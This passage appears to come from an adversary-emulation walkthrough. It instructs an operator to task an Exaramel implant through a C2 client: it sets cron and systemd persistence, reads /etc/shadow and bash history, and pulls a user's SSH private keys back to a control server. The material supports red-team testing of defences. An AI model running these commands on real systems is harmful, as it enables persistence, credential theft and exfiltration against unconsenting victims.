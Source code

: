 **Note**: Make sure to wait for the client to return the results of the previous command before tasking a new command.

```bash
cd ~/wizard_spider/Resources/control_server
```

Set cron persistence.

```bash
# Exaramel for Linux uses crontab for persistence if it does not have root privileges.

./evalsC2client.py --set-task exaramel-implant "persist cron"
```

[Source Code](../../Resources/Exaramel/configur/configur.go#L212)

Set systemd persistence.

```bash
# Exaramel for Linux has a hardcoded location under systemd that it uses to achieve persistence if it is running as root.

./evalsC2client.py --set-task exaramel-implant "persist systemd"
```

[Source Code](../../Resources/Exaramel/configur/configur.go#L261)

Get /etc/shadow.

```bash
# Note: not in CTI but in TTP scope
# OS Credential Dumping: /etc/passwd and /etc/shadow

./evalsC2client.py --set-task exaramel-implant "exec cat /etc/shadow"
```

Get bash history.

```bash
# Note: not in CTI but in TTP scope
# Unsecured Credentials: Bash History

./evalsC2client.py --set-task exaramel-implant "exec cat /home/fherbert/.bash_history"
```

[Source Code](../../Resources/Exaramel/worker/worker.go#L156)

Download SSH keys from caladan to control server (HTTPS to 192.168.0.4:8443)

```bash
# Note: not in CTI but in TTP scope
# Unsecured Credentials: Private Keys

./evalsC2client.py --set-task exaramel-implant "get /home/fherbert/.ssh/id_rsa caladan_id_rsa"
```

```bash
./evalsC2client.py --set-task exaramel-implant "get /home/fherbert/.ssh/id_rsa.pub caladan_id_rsa.pub"
```

